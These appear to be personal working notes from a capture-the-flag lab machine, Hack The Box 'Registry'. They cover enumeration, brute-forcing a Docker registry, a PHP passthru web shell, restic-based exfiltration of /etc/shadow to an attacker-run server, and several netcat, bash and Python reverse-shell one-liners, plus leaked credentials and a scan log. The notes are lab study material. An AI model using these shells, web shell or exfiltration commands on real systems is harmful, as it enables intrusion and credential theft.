

# <span style="color:#9933FF">Machine #16 Registery</span>  


## <span style="color:#9933FF">Notes During Working on the Machine 🧐🤓   

* The http service `-sV` `80/tcp open  http    nginx 1.14.0 (Ubuntu)`.  
* `/install` found it with the gobuster command and it contains pure gebbrish.  
* The web application just loads when provided with `backup.php` and then it opens a blank page. Which means the page exists because I tried some random shit .php and it gave me 404.  
* Found a couple of configuration files.
* Seems like there's a LFI vulnerability.
* Because I'm able to open files in directories I'm forbidden to access.
* Still no trace of a login page (If it's necessary anyway).
* gobuster dir -u http://10.10.10.159/install -x .php,.txt,.html,.md -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 -b 403,404  

 gobuster dns -d registry.htb -w ./test.wordlist  

 * Version of bolt I found is 3.6.4 .  
 * Seems that bolt is coded with php.  
 * I tried to gobuster with different directories but it's no use. It's not giving me anything new.
 * I also tried to gobuster the subfolders.
 * Found twig files in `/bolt/theme/base-2018/[FILENAME]` or something like that. Not sure that I remember it correctly.

* Ok I'm going to check all the files I can.  
* I think the only thing that might be useful at the moment in the bolt website is this message  
    
  * Still not sure how thooo.
<br/><br/>

* Response header called `X-Debug-Token: 7ea91f` indicates that the "profiler" is running and it might be exposing information ( the symphony profiler) which is great news.
* It doesn't seem like it's the profiler thing.
* To get authenticated the only thing that makes sense is that 
  * Either the login page has a weird, very very unusual name or that I can put a session key or cookie into the request and act like I'm authenticated BUT I don't have a cookie or a session key. I don't have any other web page that this "bolt". 
  * I almost memorized it's documentation.
  * The login page is usually at `/login`.
  * "anonymous" is allowed to login in the config file which means I'm not locked out entirely.
* I thought this might've been interesting `Strict-Transport-Security: max-age=63072000; includeSubdomains` the "includeSubdomains" part but turns out it's also a deadend.  
* Found this file and it seems interesting `https://10.10.10.159/bolt/composer.json`
* It seems like the way we're accessing data in bolt is "RESTful" which is the way that treats the portion between the domain and the parameters as data instead of using parameters "/bolt/entry/1".  

* Finally I got something  
* I got this through requesting `/v2` but I need to find an endpoint I guess.  
```uri
HTTP/1.1 401 Unauthorized

Server: nginx/1.14.0 (Ubuntu
Date: Fri, 11 Feb 2022 09:32:27 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 87
Connection: close
Docker-Distribution-Api-Version: registry/2.0
Www-Authenticate: Basic realm="Registry"
X-Content-Type-Options: nosniff


{"errors":[{"code":"UNAUTHORIZED","message":"authentication required","detail":null}]}
```  

* That's what I found by researching  
  <blockquote>
  If a 401 Unauthorized response is returned, the client should take action based on the contents of the “WWW-Authenticate” header and try the endpoint again. Depending on access control setup, the client may still have to authenticate against different resources, even if this check succeeds.
  </blockquote>  

* The realm is as follows  
  <blockquote>
  The "realm" authentication parameter is reserved for use by authentication schemes that wish to indicate a scope of protection.
  A protection space is defined by the canonical root URI (the scheme and authority components of the effective request URI) of the server being accessed, in combination with the realm value if present. These realms allow the protected resources on a server to be partitioned into a set of protection spaces, each with its own authentication scheme and/or authorization database. The realm value is a string, generally assigned by the origin server, that can have additional semantics specific to the authentication scheme. Note that a response can have multiple challenges with the same auth-scheme but with different realms.
  </blockquote>  

```
  hydra -L /usr/share/brutex/wordlists/simple-users.txt  -P /usr/share/brutex/wordlists/password.lst docker.registry.htb -s 443 https-get /v2/
```  

* I GOT ACCESS. I brute forced the authentication of the docker registry and found a password "admin:admin" on the http service not the https.  
* Found a passphrase for bolt ssh login "GkOcz221Ftb3ugog".
* Uncommon setuid binary `/sbin/mount.cifs`.  
* Backups no OS  
```console
/var/www/html/bolt/vendor/codeception/codeception/tests/data/included/jazz/tests/_data/dump.sql
/var/www/html/bolt/vendor/codeception/codeception/tests/data/included/jazz/pianist/tests/_data/dump.sql
/var/www/html/bolt/vendor/codeception/codeception/tests/data/included/shire/tests/_data/dump.sql
/var/www/html/bolt/vendor/codeception/codeception/tests/data/dump.sql
/var/www/html/bolt/vendor/codeception/codeception/tests/data/claypit/tests/_data/dump.sql

```  

* `Feb10     1754     root registry serve /etc/docker/registry/config.yml`

* Seems interesting `Feb10     1726     root /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 5000 -container-ip 172.18.0.2 -container-port 5000`  

```
GET /v2/_catalog HTTP/1.1
Host: 172.18.0.2:5000
Authorization: Basic YWRtaW46YWRtaW4=
```  
* There's no docker group and I can't create one
* I can't see if I have sudo privilege because I don't know what's my user's password.

* The docker registry stuff are stored in this path `/srv/docker-registry/data/docker/registry/v2`.

* Possiblities  
  * the backup that I can execute when requesting the "backup.php" page.
  * Docker? I don't have permission to do anything ( I'm excluding it for now) or maybe I can try and do something about the permission denied.
  * there's something weird in one of the database files ( it has a column called "stack" and inside of it, there's a value of ["files://shell.php"]) which looks interesting but I don't know what the hell it means.  
  * The `runc` command but there's nothing from its side either.
  * There's also the `registry serve /etc/docker/registry/config.yml` command that neither the command exists nor the file in the path exists.  

nc -l -p 7777 > linpeas

nc -w 3 10.10.10.159 7777 < linpeas  

* This could be something `/lib/systemd/system/uuidd.socket is calling this writable listener: /run/uuidd/request`.  
* Use SUID3NUM it's nice. Relieves the burden of searching through the SUID binaries and checking if it's normal that they have the sticky bit or not. ( And it's legit in OSCP)  

* `./rest-server --path /tmp/restic --no-auth --debug`

restic restore -r "/tmp/restic/new" latest --target .
restic backup -r rest:http://127.0.0.1:8000/new ~/html/backup.php
* SOMETHING!!!  


sudo restic backup -r rest:http://172.18.0.1/v2/bolt-image /etc/shadow

```console
CREATE TABLE bolt_authtoken (
  id INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, 
  user_id INTEGER DEFAULT NULL, 
  username VARCHAR(32) DEFAULT NULL, 
  token VARCHAR(128) NOT NULL, 
  salt VARCHAR(128) NOT NULL, 
  lastseen DATETIME DEFAULT NULL, 
  ip VARCHAR(45) DEFAULT NULL, 
  useragent VARCHAR(128) DEFAULT NULL, 
  validity DATETIME DEFAULT NULL)
1, 
1, 
None, 
a52cd7688a18a6b0c787aa1539c3c734ae551ae5497b3f8bc8bda953cb65cba2, 
f8e7da1a2b9ea7109e0bdeedb6e85135, 
2019-10-08 21:25:07, 
192.168.1.52, 
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36, 
2019-10-22 21:25:07
```  

<blockquote>
The bolt_authtoken cookie is used to store a token for your identification in the bolt admin interface after you logged in (if you remove it you will be logged out).
</blockquote>

Cookie: bolt_authtoken=a52cd7688a18a6b0c787aa1539c3c734ae551ae5497b3f8bc8bda953cb65cba2

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 1234 >/tmp/f


git config --global user.name "Bob den Otter"
git config --global user.email bobdenotter@gmail.com

```
a:3:{s:15:"_sf2_attributes";a:2:{s:20:"_csrf/https-user_new";s:43:"OpaDHvzFZJQH0mZo_JDlwlwJ3KOkJQDLX8C6ZV-omjE";s:24:"_csrf/https-content_edit";s:43:"AIAWJDPagn5x8pQy7goMdlbIIzhrANy-7xSeKrfCIrY";}s:12:"_sf2_flashes";a:1:{s:7:"success";a:1:{i:0;s:35:"You've been logged on successfully.";}}s:9:"_sf2_meta";a:3:{s:1:"u";i:1570569906;s:1:"c";i:1570569853;s:1:"l";s:1:"0";}}
```

```
a:3:{s:15:"_sf2_attributes";a:5:{s:20:"_csrf/https-user_new";s:43:"OpaDHvzFZJQH0mZo_JDlwlwJ3KOkJQDLX8C6ZV-omjE";s:24:"_csrf/https-content_edit";s:43:"AIAWJDPagn5x8pQy7goMdlbIIzhrANy-7xSeKrfCIrY";s:14:"authentication";O:30:"Bolt\AccessControl\Token\Token":3:{s:7:"*user";O:25:"Bolt\Storage\Entity\Users":19:{s:5:"*id";i:1;s:11:"*username";s:5:"admin";s:11:"*password";N;s:8:"*email";s:17:"bolt@registry.htb";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-08 21:25:07.090205";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:9:"*lastip";s:12:"192.168.1.52";s:14:"*displayname";s:5:"Admin";s:8:"*stack";a:0:{}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";s:1:"1";s:10:"*user_id";i:1;s:8:"*token";s:64:"a52cd7688a18a6b0c787aa1539c3c734ae551ae5497b3f8bc8bda953cb65cba2";s:7:"*salt";s:32:"f8e7da1a2b9ea7109e0bdeedb6e85135";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-08 21:25:07.092936";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:12:"192.168.1.52";s:12:"*useragent";s:120:"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-22 21:25:07.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1570569907;}s:5:"stack";a:0:{}s:23:"_csrf/https-file_upload";s:43:"pYJR4fLx6gqMfTgPxGduppLKqdiYzkA0i0kjuhEYofA";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1570569941;s:1:"c";i:1570569853;s:1:"l";s:1:"0";}}
```


```
a:3:{s:15:"_sf2_attributes";a:6:{s:16:"_csrf/user_login";s:43:"bqf7H9soxjE6k_yTsXycUSmAxXh72_lvBeXyYkeWFrM";s:18:"_csrf/content_edit";s:43:"y-N3-d898AIt1Okwzyg9KldynhyhxUK2xuX_yJT0ngc";s:14:"authentication";O:30:"Bolt\AccessControl\Token\Token":3:{s:7:"*user";O:25:"Bolt\Storage\Entity\Users":19:{s:5:"*id";i:1;s:11:"*username";s:5:"admin";s:11:"*password";N;s:8:"*email";s:17:"bolt@registry.htb";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-17 14:34:52.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:9:"*lastip";s:10:"10.10.14.2";s:14:"*displayname";s:5:"Admin";s:8:"*stack";a:1:{i:0;s:17:"files://shell.php";}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";i:2;s:10:"*user_id";i:1;s:8:"*token";s:64:"b48aa43041667445fee64f70e3bf680a621bdd650e9efb2ba8c61cb72545619f";s:7:"*salt";s:32:"4df19b4fbbadb9649e3e6c2b1ed3f1ba";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-17 14:34:52.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:10:"10.10.14.2";s:12:"*useragent";s:68:"Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2019-10-31 14:34:52.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1571654393;}s:5:"stack";a:1:{i:0;s:17:"files://shell.php";}s:15:"_csrf/file_edit";s:43:"vtjeUz44Q6fL0H6qqQs6QXBdw6PxMtRbLxUScVRIu00";s:17:"_csrf/file_upload";s:43:"AT2sOaPyuPIAqmLsH5hht6AkbBTxVCs1KeHjdUGuNys";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1571654475;s:1:"c";i:1571322886;s:1:"l";i:0;}}
```

* Found this commit   
```
commit 42af4fd3a178de245cf11aced78d7354fde2e246
Author: ToBe998 <tobe@topolis.de>
Date:   Wed Sep 12 22:17:25 2018 +0200

    Added method to login as specific user without password (#7664)
    
    * Added method to login as specific user without pasword
    
    As discussed on Slack, the added `loinAsUser()` method enabled extension crea
tors to override the login mechanics and connect bolt to various kinds of SSO sys
tems. Since the logic for user management and authentication is currently (pre 4.
1) not centralized enough, a lot of needed code would have to be duplicated to ar
chive this. (And we certainly dont want to go there ;) )
    
    PS: The file is identical to 3.5 and could also be backported?
    
    I can provide guides on how to do this if needed.
    
    * phpdoc updated
    
    * Update Login.php
    
    * code reviews
    
    * Update Login.php
    
    * Update Login.php

```  

* I found the login page.
* Turns out the profiler is the key.

FOUND PASSWORD `$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK:strawberry`  

* Web shell  
```php
<?php 
passthru($_REQUEST['cmd']);
?>
```  

sudo restic backup -r "rest:http://10.10.14.18:1234/ABCDEFU" "/etc/shadow"
./rest-server --listen ":12345"
restic init -r "rest:http://127.0.0.1/bolt"
restic init -r "rest:http://localhost:$RPORT/$NAME"
/tmp/rest-server --listen ":5555" --no-auth
restic -r /tmp/restShit restore c0075dc5 --target /tmp/restOut
restic backup -r restShit restore c0075dc5 --target /tmp/restOut 

restic -r restShit dump latest /tmp/restOut > restore.tar
chown -R bolt.bolt /tmp/restShit

```
sudo restic backup -r rest:http://localhost/backup /etc/shadow
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.159 1234 >/tmp/f
export RHOST="10.10.14.18";export RPORT=80;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```  

* web server `DocumentRoot /var/www/html`.
## <span style="color:#9933FF">How Did I Solve the Machine 😎🥳 


<br/><br/>


## <span style="color:#9933FF">Where I Got Stuck?😡😧  


<br/><br/>


## <span style="color:#9933FF">What Did I learn from this Machine?👀  


<br/><br/>


## <span style="color:#9933FF">Writeups ✍🏽📓   


<br/><br/>
* feroxbuster's results  
```
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git => http://10.10.10.159/bolt/.git/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app => http://10.10.10.159/bolt/app/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/branches => http://10.10.10.159/bolt/.git/branches/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/branches/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/branches/.htpasswd
200      GET       11l       29w      251c http://10.10.10.159/bolt/.git/config
200      GET        1l       10w       73c http://10.10.10.159/bolt/.git/description
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache => http://10.10.10.159/bolt/app/cache/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/cache/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/cache/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/extensions => http://10.10.10.159/bolt/extensions/
403      GET        7l       11w      178c http://10.10.10.159/bolt/extensions/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/extensions/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/files => http://10.10.10.159/bolt/files/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/config => http://10.10.10.159/bolt/app/config/
403      GET        7l       11w      178c http://10.10.10.159/bolt/files/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/files/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/config/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/config/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/database => http://10.10.10.159/bolt/app/database/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/database/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/database/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/hooks => http://10.10.10.159/bolt/.git/hooks/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/hooks/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/hooks/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/info => http://10.10.10.159/bolt/.git/info/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/info/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/info/.htaccess
200      GET      735l     3068w   282698c http://10.10.10.159/bolt/.git/index
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/logs => http://10.10.10.159/bolt/.git/logs/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/logs/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/logs/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/development => http://10.10.10.159/bolt/app/cache/development/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/cache/development/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/cache/development/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/objects => http://10.10.10.159/bolt/.git/objects/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/objects/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/objects/.htaccess
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/config/extensions => http://10.10.10.159/bolt/app/config/extensions/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/config/extensions/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/config/extensions/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/refs => http://10.10.10.159/bolt/.git/refs/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/refs/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/refs/.htaccess
200      GET        6l       43w      240c http://10.10.10.159/bolt/.git/info/exclude
301      GET        7l       13w      194c http://10.10.10.159/bolt/src => http://10.10.10.159/bolt/src/
403      GET        7l       11w      178c http://10.10.10.159/bolt/src/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/src/.htaccess
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/resources => http://10.10.10.159/bolt/app/resources/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/resources/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/resources/.htaccess
301      GET        7l       13w      194c http://10.10.10.159/bolt/tests => http://10.10.10.159/bolt/tests/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Events => http://10.10.10.159/bolt/src/Events/
403      GET        7l       11w      178c http://10.10.10.159/bolt/tests/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/tests/.htaccess
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Security => http://10.10.10.159/bolt/src/Security/
403      GET        7l       11w      178c http://10.10.10.159/bolt/src/Events/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/theme => http://10.10.10.159/bolt/theme/
403      GET        7l       11w      178c http://10.10.10.159/bolt/theme/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/theme/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/src/Security/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/development/data => http://10.10.10.159/bolt/app/cache/development/data/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor => http://10.10.10.159/bolt/vendor/
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/src => http://10.10.10.159/bolt/app/src/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/src/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/src/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler => http://10.10.10.159/bolt/app/cache/profiler/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/00 => http://10.10.10.159/bolt/app/cache/profiler/00/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/cache/profiler/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/cache/profiler/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/01 => http://10.10.10.159/bolt/app/cache/profiler/01/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/05 => http://10.10.10.159/bolt/app/cache/profiler/05/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/11 => http://10.10.10.159/bolt/app/cache/profiler/11/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/08 => http://10.10.10.159/bolt/app/cache/profiler/08/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/12 => http://10.10.10.159/bolt/app/cache/profiler/12/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/15 => http://10.10.10.159/bolt/app/cache/profiler/15/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/1c => http://10.10.10.159/bolt/app/cache/profiler/1c/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/22 => http://10.10.10.159/bolt/app/cache/profiler/22/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/29 => http://10.10.10.159/bolt/app/cache/profiler/29/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/2d => http://10.10.10.159/bolt/app/cache/profiler/2d/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/39 => http://10.10.10.159/bolt/app/cache/profiler/39/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/3d => http://10.10.10.159/bolt/app/cache/profiler/3d/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/45 => http://10.10.10.159/bolt/app/cache/profiler/45/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view => http://10.10.10.159/bolt/app/view/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/52 => http://10.10.10.159/bolt/app/cache/profiler/52/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/65 => http://10.10.10.159/bolt/app/cache/profiler/65/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/66 => http://10.10.10.159/bolt/app/cache/profiler/66/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/view/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/view/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/67 => http://10.10.10.159/bolt/app/cache/profiler/67/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/74 => http://10.10.10.159/bolt/app/cache/profiler/74/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/75 => http://10.10.10.159/bolt/app/cache/profiler/75/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/77 => http://10.10.10.159/bolt/app/cache/profiler/77/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/79 => http://10.10.10.159/bolt/app/cache/profiler/79/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/82 => http://10.10.10.159/bolt/app/cache/profiler/82/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/86 => http://10.10.10.159/bolt/app/cache/profiler/86/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/87 => http://10.10.10.159/bolt/app/cache/profiler/87/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/89 => http://10.10.10.159/bolt/app/cache/profiler/89/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/90 => http://10.10.10.159/bolt/app/cache/profiler/90/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/93 => http://10.10.10.159/bolt/app/cache/profiler/93/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/98 => http://10.10.10.159/bolt/app/cache/profiler/98/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/95 => http://10.10.10.159/bolt/app/cache/profiler/95/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/91 => http://10.10.10.159/bolt/app/cache/profiler/91/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/a5 => http://10.10.10.159/bolt/app/cache/profiler/a5/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/aa => http://10.10.10.159/bolt/app/cache/profiler/aa/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/a4 => http://10.10.10.159/bolt/app/cache/profiler/a4/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/ab => http://10.10.10.159/bolt/app/cache/profiler/ab/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/bin => http://10.10.10.159/bolt/vendor/bin/
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/objects/info => http://10.10.10.159/bolt/.git/objects/info/
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/bin/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/bin/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/objects/info/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/objects/info/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/b2 => http://10.10.10.159/bolt/app/cache/profiler/b2/
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/refs/heads => http://10.10.10.159/bolt/.git/refs/heads/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/b7 => http://10.10.10.159/bolt/app/cache/profiler/b7/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/b3 => http://10.10.10.159/bolt/app/cache/profiler/b3/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/refs/heads/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/refs/heads/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/bc => http://10.10.10.159/bolt/app/cache/profiler/bc/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/bd => http://10.10.10.159/bolt/app/cache/profiler/bd/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/composer => http://10.10.10.159/bolt/vendor/composer/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/bb => http://10.10.10.159/bolt/app/cache/profiler/bb/
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/composer/.htaccess
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/contao => http://10.10.10.159/bolt/vendor/contao/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/c2 => http://10.10.10.159/bolt/app/cache/profiler/c2/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/ca => http://10.10.10.159/bolt/app/cache/profiler/ca/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/trans => http://10.10.10.159/bolt/app/cache/trans/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/c4 => http://10.10.10.159/bolt/app/cache/profiler/c4/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/c3 => http://10.10.10.159/bolt/app/cache/profiler/c3/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/cache/trans/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/cache/trans/.htpasswd
